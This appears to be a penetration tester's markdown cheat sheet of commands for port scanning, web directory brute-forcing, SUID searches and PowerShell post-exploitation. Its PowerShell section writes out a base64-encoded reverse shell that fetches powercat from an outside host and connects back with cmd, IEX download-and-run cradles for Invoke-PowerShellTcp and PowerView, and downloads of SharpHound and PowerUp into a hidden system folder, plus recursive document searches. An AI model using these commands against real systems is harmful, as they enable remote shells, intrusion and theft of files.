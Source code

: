 # Commands

## vi

```sh
kali@kali:/etc/vim$ cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Enumeration 

```sh
$ sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
$ ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
$ sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
$ curl -v -X OPTIONS http://192.168.1.105/test

$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

$ nikto -host 192.168.1.159:8080 | tee nikto_192.168.1.159_8080.txt
```

## Find

```sh
$ find / -perm -4000 2> /dev/null
```

## Powershell

### Encoded commands

```sh
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```sh
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```sh
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```sh
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```sh
$ IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```sh
$ "{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```sh
$ Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```sh
$ gci -force -recurse -file -ea silentlycontinue  

$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

$ FindDate=Get-Date -Year 2016 -Month 06 -Day 24
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```

## Useful links

[](https://github.com/swisskyrepo/PayloadsAllTheThings)
[](https://book.hacktricks.xyz/)
[](https://gtfobins.github.io/)
[](https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md)
[](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)


